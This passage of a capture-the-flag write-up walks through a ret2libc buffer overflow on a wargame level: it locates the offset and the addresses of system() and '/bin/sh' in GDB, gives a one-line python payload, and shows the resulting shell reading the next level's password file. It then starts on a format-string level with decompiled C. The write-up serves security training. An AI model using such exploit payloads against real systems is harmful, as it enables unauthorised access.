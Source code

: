On the surface, this looks like a buffer overflow vulnerability with a `gets()` call on a limited size buffer. The catch is, we are unable to call `exec()` in the child for the buffer overflow. Which means we have to use other functions like `system()`

First off, I located the EIP offset with the help of **[Buffer Overflow EIP Offset String generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)** To generate the string pattern and matching.

By setting **`set follow-fork-mode child`** in GDB, im able to trace through the fork and obtain the offset as `156`. Since we are using other functions, we have to find the addresses loaded in memory. which is the pointer to the `system()` function and the string `/bin/sh`. This can be acheived using `print system` and `find __libc_start_main,+99999999,"/bin/sh"` (find from libc main for 99999999 bytes "/bin/sh").

Our pointer to `system()` is `0xf7e6aed0`, our pointer to "/bin/sh" is `0xf7f897ec`.
![image](https://hackmd.io/_uploads/rJfxRy2Up.png)

Hence, we can generate our shellcode like so
```
python -c "print 'B' * 156 + '\xf7\xe6\xae\xd0'[::-1] + 'BEEF' + '\xf7\xf8\x97\xec'[::-1]" > /tmp/level04

 (cat /tmp/level04 ; cat) | ./level04
```

And we have our password `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`
```
level04@OverRide:~$  (cat /tmp/level04 ; cat) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
whoami
level05
cat /home/users/level05
cat: /home/users/level05: Is a directory
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
## level05 (format string vulnerability with GOT overwrite)
```clike!
int main()
{
    int count = 0;
    char inputbuf[?];
    
    fgets(inputbuf, 100, stdin);
    count = 0;
    while(strlen(inputbuf) > count)
    {
        if (inputbuf[count] <= 64 && inputbuf[count] > 90)
        {
            ++count;
            continue;
        }
        else
        {
            inputbuf[count] = inputbuf[count] ^ 32;
            ++count;
        }
    }
    printf(inputbuf);
    exit(0);
}
```

